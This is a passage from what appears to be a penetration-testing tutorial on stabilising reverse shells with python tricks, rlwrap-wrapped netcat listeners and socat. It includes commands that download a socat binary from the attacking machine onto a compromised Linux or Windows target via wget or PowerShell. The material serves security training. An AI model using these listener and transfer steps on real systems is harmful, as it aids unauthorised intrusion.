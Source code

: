 The full technique can be seen here:

![image](https://github.com/user-attachments/assets/7114bf84-49df-495d-9846-d779f62d4a86)

Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

### Technique 2: rlwrap

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with sudo apt install rlwrap.

To use rlwrap, we invoke a slightly different listener:
```bash
rlwrap nc -lvnp <port>
```

Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use stty raw -echo; fg to stabilise and re-enter the shell.

### Technique 3: Socat

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (sudo python3 -m http.server 80), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (wget <LOCAL-IP>/socat -O /tmp/socat).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run stty -a. This will give you a large stream of output. Note down the values for "rows" and columns:

![image](https://github.com/user-attachments/assets/5513c71d-98a4-4ba4-8a28-19e7b925eb31)

Next, in your reverse/bind shell, type in:
```bash
stty rows <number>
```
and
```bash
stty cols <number>
```
Filling in the numbers you got from running the command in your own terminal.
